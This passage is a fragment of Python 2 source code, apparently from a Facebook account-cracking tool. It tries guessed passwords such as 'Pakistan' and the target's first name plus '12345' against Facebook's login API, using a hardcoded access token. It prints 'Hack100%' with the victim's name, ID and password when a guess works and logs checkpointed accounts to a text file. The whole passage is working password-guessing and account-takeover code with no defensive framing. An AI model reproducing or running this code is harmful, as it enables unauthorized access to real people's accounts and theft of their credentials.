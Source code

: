 						                               print '\x1b[1;94m[•⚔•] \x1b[1;91mPassword \x1b[1;91m✯ \x1b[1;92m' + pass5 + '\n'							
						                               oks.append(user+pass5)	
                                                                       else:
			                                                       if 'www.facebook.com' in q["error_msg"]:
				                                                   print '\x1b[1;94m[ ❥ ] \x1b[1;94mCheckpoint'
				                                                   print '\x1b[1;94m[•⚔•] \x1b[1;94mName \x1b[1;94m    ✯ \x1b[1;95m' + b['name']
				                                                   print '\x1b[1;94m[•⚔•] \x1b[1;94mID \x1b[1;94m      ✯ \x1b[1;95m' + user
				                                                   print '\x1b[1;94m[•⚔•] \x1b[1;94mPassword \x1b[1;94m✯ \x1b[1;95m' + pass5 + '\n'
				                                                   cek = open("out/super_cp.txt", "a")
				                                                   cek.write("ID:" +user+ " Pw:" +pass5+"\n")
				                                                   cek.close()
				                                                   cekpoint.append(user+pass5)					
						                               else:								
							                           pass6 = 'Pakistan'											
			                                                           data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			                                                           q = json.load(data)												
			                                                           if 'access_token' in q:	
								                           x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                                           z = json.loads(x.text)
				                                                           print '\x1b[1;94m[  ✓  ] \x1b[1;92mHack100%💉'											
				                                                           print '\x1b[1;94m[•⚔•] \x1b[1;91mName \x1b[1;91m    ✯ \x1b[1;92m' + b['name']											
				                                                           print '\x1b[1;94m[•⚔•] \x1b[1;91mID \x1b[1;91m      ✯ \x1b[1;92m' + user									
				                                                           print '\x1b[1;94m[•⚔•] \x1b[1;91mPassword \x1b[1;91m✯ \x1b[1;92m' + pass6 + '\n'											
				                                                           oks.append(user+pass6)
                                                                                   else:
			                                                                   if 'www.facebook.com' in q["error_msg"]:
				                                                               print '\x1b[1;94m[ ❥ ] \x1b[1;94mCheckpoint'
				                                                               print '\x1b[1;94m[•⚔•] \x1b[1;94mName \x1b[1;94m    ✯ \x1b[1;95m' + b['name']
				                                                               print '\x1b[1;94m[•⚔•] \x1b[1;94mID \x1b[1;94m      ✯ \x1b[1;95m' + user
				                                                               print '\x1b[1;94m[•⚔•] \x1b[1;94mPassword \x1b[1;94m✯ \x1b[1;95m' + pass6 + '\n'
				                                                               cek = open("out/super_cp.txt", "a")
				                                                               cek.write("ID:" +user+ " Pw:" +pass6+"\n")
				                                                               cek.close()
				                                                               cekpoint.append(user+pass6)	
						                                           else:							
								                               pass7 = b['first_name']+'12345'						
								                               data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass7)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")						
								                               q = json.load(data)						
								                               if 'access_token' in q:		
				                                                                       x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				                                                                       z = json.loads(x.text)
									                               print '\x1b[1;94m[  ✓  ] \x1b[1;92mHack100%💉'					
									                               print '\x1b[1;94m[•⚔•] \x1b[1;91mName \x1b[1;91m    ✯ \x1b[1;92m' + b['name']					
									                               print '\x1b[1;94m[•⚔•] \x1b[1;91mID \x1b[1;91m      ✯ \x1b[1;92m' + user				
									                               print '\x1b[1;94m[•⚔•] \x1b[1;91mPassword \x1b[1;91m✯ \x1b[1;92m' + pass7 + '\n'					
									                               oks.append(user+pass7)
                                                                                               else:
			                                                                               if 'www.facebook.com' in q["error_msg"]:
				                                                                           print '\x1b[1;94m[ ❥ ] \x1b[1;94mCheckpoint'
				                                                                           print '\x1b[1;94m[•⚔•] \x1b[1;94mName \x1b[1;94m    ✯ \x1b[1;95m' + b['name']
				                                                                           print '\x1b[1;94m[•⚔•] \x1b[1;94mID \x1b[1;94m      ✯ \x1b[1;95m' + user